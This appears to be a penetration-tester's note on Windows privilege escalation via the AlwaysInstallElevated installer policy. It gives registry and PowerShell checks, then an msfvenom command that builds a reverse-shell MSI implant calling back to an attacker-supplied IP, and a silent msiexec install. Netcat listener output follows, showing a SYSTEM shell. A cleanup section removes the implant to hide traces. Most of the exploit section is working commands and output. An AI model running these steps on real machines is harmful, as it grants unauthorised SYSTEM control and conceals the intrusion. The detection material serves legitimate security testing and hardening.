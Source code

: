 # Living off the Land

One of the easiest privilege escalation vulnerabilities related to the group policy settings or the workstation was configured that allows the users to install whatever application that ends with an extension `.msi`. Enumeration is very easy and it doesn't require that much effort to find it. The only thing you should keep in mind that the `REG_DWORD` value is `0x1` does give you an indication that it can be abused from the least privileges.

## 01 - Detect

### 1.1 - Command Prompt

```
C:\> reg.exe query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\> reg.exe query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

### 1.2 - PowerShell

```
PS C:\> Get-ItemProperty -Path HKCU:\SOFTWARE\Policies\Microsoft\Windows\Installer -Name "AlwaysInstallElevated"

PS C:\> Get-ItemProperty -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer -Name "AlwaysInstallElevated"
```

## 02 - Exploit



### 2.2 - Generate via `msfvenom`

We can generate an implant just by using the `-f msi` flag but this type we'll use a different payload module to create a new user account.

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=53 -f msi -o implant.msi
```

Execute the implant.

```
C:\> msiexec /quiet /qn /i implant.msi

$ sudo nc -lnvp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.195.194.
Ncat: Connection from 10.10.195.194:49794.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\> whoami
nt authority\system
```

## 03 - Cleanup

After that clear the trace with the following commands to carry on with the rest of the cyber penetration engagement

```
C:\> msiexec /x implant.msi /q

C:\> del implant.msi
```

---
## References

 - [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xD - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/LOLBAS/Code Execution/MSI|Code Execution: MSI]]

- [Mandiant: msi-search](https://github.com/mandiant/msi-search)

- [Mandiant: Escalating Privileges via Third-Party Windows Installers](https://www.mandiant.com/resources/blog/privileges-third-party-windows-installers)

- [MSIFortune - LPE with MSI Installers or MSI - Might (be) stupid idea](https://badoption.eu/blog/2023/10/03/MSIFortune.html)